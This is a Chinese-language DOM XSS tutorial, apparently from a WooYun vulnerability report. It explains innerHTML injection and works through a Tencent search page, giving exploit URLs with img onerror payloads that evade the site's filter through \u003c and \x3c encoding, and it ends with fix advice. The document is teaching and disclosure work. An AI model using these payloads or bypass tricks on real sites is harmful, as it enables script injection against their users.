


# 8\. Dom Xss 入门 [显式输出]

# 8\. Dom Xss 入门 [显式输出]

> 来源：[. Dom Xss 入门 [显式输出]](http://www.wooyun.org/bugs/wooyun-2010-016041)

## 简要描述

反射型 XSS 部分，就到这里了。 接着我们进入 Dom Xss 的部分。 Dom Xss 相比反射型 XSS，脑袋需要多思考一层。 也就是说， 我们关注的不仅是【输出】了什么，还要了解这个页面里，【javascript】拿这个【输出】干了什么。 为了循序渐进，本例讲到的是，【输出】直接在源代码可见的情况。

## 详细说明

1\. 在学习 Dom Xss 之前，先来补习点 html, js 的基础知识。

```
<div id="a">xxx</div>
<script> document.getElementById("a").innerHTML="yyyyyy";
</script> 
```

解释如下：


2\. 进一步，我们的 yyyyyy ，还可以是 HTML 代码。

```
<div id="a">xxx</div>
<script>
document.getElementById("a").innerHTML="  ";
</script> 
```

效果如下：



3\. 再进一步， JS 的字符串中的字符可以写为 unicode 编码。 譬如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e` 不知道怎么转义的，可以使用 gainover 的工具。 工具地址：[`app.baidu.com/app/enter?appid=280383`](http://app.baidu.com/app/enter?appid=280383)



也就是，我们上面的代码，可以进一步写为。

```
<div id="a">xxx</div>
<script>
document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
</script> 
```

4\. 上面看起来废话好多，但是还是很重要的，这对于后面实例的讲解很重要。

5\. 我们来看看一个具体的实例，地址如下：

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=aaaaaaa&attr=133&stype=2&tname=star_second.shtml 
```

和前面反射型的一样，我们先看看输出。


相关代码，我也贴出来。

```
<strong id="titleshow">按职业 1 检索：aaaaaaa </strong></div>
<script> if("aaaaaaa"=="")
document.getElementById("titleshow").innerHTML="按地区检索：全部明星"; if("职业 1"=="职业 1")
document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
if("职业 1"=="职业 2") document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
if("职业 1"=="职业 3") document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
</script> 
```

6\. 一共有 6 处，有一处图上没显示,但是也没用处，这里不列出来了，看上面代码中的 5 处。我们已经知道，`<`, `>`, `"` 都被过滤了， 用 前面提到的某些技巧，似乎也无法直接 XSS。那么该怎么办呢？

7\. 在看到本教程的 1，2，3 部分后，聪明的你们不知道会不会想到些什么呢？ 对的，那就是这里出现了 `innerHTML="[输出]"` 的情况。

我们可以看到，上面代码中，实际上只有一句是运行了的。我们重点看它。`if("职业 1"=="职业 1")`

```
document.getElementById("titleshow").innerHTML="按职业检索：[输出]"; 
```

8\. 这里 [输出] 最然过滤了 `<`, `>` ，但是并没有过滤 `\` 。这样一来，大家应该清楚，为什么上面要说到 `<` 可以写为 `\u003c` 了吧。 就 是为了应付这种情况。

9\. 因此，我们可以构造缺陷点的代码如下：

```
if("职业 1"=="职业 1")
document.getElementById("titleshow").innerHTML="按职业检索：\u003cimg src=1 onerror=alert(1)\u003e"; 
```

经过运行后， titleshow 里的 HTML 就会变为 `` ，从而弹出 1。 对应的，我们的利用代码，可以写为如下，其中空格，我写为了`\u0020`

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=\u003Cimg\u0020src=1\u0020onerror=alert(1)\u003e&attr= 133&stype=2&tname=star_second.shtml 
```

看看对应的源代码，悲催的事情出现了， \u003c 和 \u003e 竟然被腾讯过滤了。。。


10\. 别灰心，被过滤的原因，是因为 @Jannock 大牛报告过这个漏洞。[跨站脚本-可以让战场离得更远（浅谈腾讯架构缺陷）](http://www.2cto.com/Article/201210/159123.html)

11\. 其实我们还应该注意到上面图片中，过滤的实际上是`\u003c` 和`\u003e`，但是并没有过滤`\u0020`，这说明，腾讯只是针对性的 过滤，并没有过滤 反斜线。

12\. 其实呢，在 JS 字符串里， `<` 不光可以写为 `\u003c`，还可以写为 `\x3c`， `>` 同样可以写为 `\x3e`。我们试试腾讯过滤了这个 没有呢？

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=\x3Cimg\u0020src=1\u0020onerror=alert(1)\x3e&attr=133& stype=2&tname=star_second.shtml 
```

对应源码，看来没过滤啊～～


哎呀，这次总算弹出来了。见漏洞证明

比如

```
document.getElementById("y").innerHTML="xxxxxxxxxx"; 
document.write("xxxxxxxxxxxx"); 
```

还有一些网站，使用了第三方的 JS 库，譬如 jQuery 时，会有

```
$("#y").html("xxxxxxx"); 
```

14\. 当然最后，还需要提到一些需要注意的地方。

```
aa.innerHTML="xxxxxxxxxxxx"; 
```

这种情况下。xxxxx 只能使用 `` 这种方式来触发 JS。

而不能以 `<script>alert(1)</script>` 来触发，因为这种压根不会执行`<script>..</script>`之间的内容。 IE 下，可以使用

```
<script defer>alert(1)</script>。 
```

## 修复方案

此案例凸显出开发人员的意识不足问题。指哪修哪，浮于表面的修复没有任何意义。

方法 1\. 输出时，过滤 `\`

方法 2\. `innerHTML=encodeHTML([输出])`